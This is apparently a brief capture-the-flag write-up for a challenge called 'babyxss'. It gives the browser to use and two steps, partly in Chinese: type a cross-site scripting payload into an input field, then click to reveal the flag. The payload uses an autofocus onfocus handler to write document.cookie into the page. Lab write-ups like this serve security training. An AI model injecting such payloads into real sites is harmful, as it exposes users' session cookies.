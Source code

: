 # Title
babyxss
# Tools
firefox or chrome
# Steps
* step 1 输入框输入
```html
<input onfocus="document.write(document.cookie)" autofocus>
```
* step 2 点击即可在图片中获得flag
